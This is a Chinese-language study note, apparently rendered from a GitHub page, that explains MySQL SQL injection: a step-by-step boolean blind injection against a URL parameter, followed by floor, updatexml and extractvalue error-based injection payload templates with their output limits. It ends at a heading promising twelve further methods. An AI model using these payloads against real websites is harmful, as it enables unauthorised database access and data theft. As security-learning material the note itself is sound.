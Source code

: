    - 找到注入点

   - 猜测后端查询语句

     select * from xxx_tbl where id=’xxx‘ limit 0,1

     - 判断注入类型
       字符型
     - 判断闭合符
       单引号

   - 构造布尔查询子语句
     ascii(substr(database(), 1, 1))>1

   - 注入到url参数中提交

     1' and ascii(substr(database(),1,1))>115%23

   - 不停变换比较的数字，逼出我们想要查询的字母的ascii码

   - ascii码表中反查字母

   - 反复作5-8步，查询出所有想查询的内容

# floor报错注入是什么？

双（查询）注入，又称floor报错注入，想要查询select database()，只需要输入后面语句即可在
MySQL报错语句中查询出来：

```
1、union select count(*), concat((payload), floor(rand()*2)) as a from information_schema.tables group by a
2、and (select 1 from (select count(*),concat((payload),floor(rand(0)*2))x from information_schema.tables group by x)a)
```

count(*)必须带上

1. 输出长度限制为32个字符
2. 后台返回记录列数至少2列



# updatexml()报错注入是什么？

MySQL执行1=(updatexml(1,concat(0x3a,(payload)),1))将报错。
限制1：输出字符长度限制为32个字符
限制2：仅payload返回的不是xml格式，才会生效

# Extractvalue()报错注入是什么？

模板1：and extractvalue('anything',concat('/',(Payload)))将报错，不推荐使用。
模板2：union select 1,(extractvalue(1,concat(0x7e,(payload),0x7e))),3，不存在丢失报错成果的
情况。

# 报错注入的其他12种

